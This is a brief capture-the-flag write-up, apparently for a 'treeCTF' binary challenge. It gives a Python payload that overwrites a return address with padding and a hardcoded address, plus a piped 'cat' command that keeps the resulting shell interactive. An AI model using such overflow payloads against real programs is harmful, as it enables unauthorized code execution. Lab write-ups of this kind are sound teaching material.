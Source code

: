 
Something to watch out for in this challenge: you can pipe the right input but you also need to mantain an interactive session to use the shell. To do so, you can do

```
cat soln.txt - | ./main
```


## Write-up

```python
addr = '\xa6\x06\x40\x00\x00\x00\x00\x00'
print 'b'*16 + 'z'*8 + addr
```

**flag:** treeCTF{...}
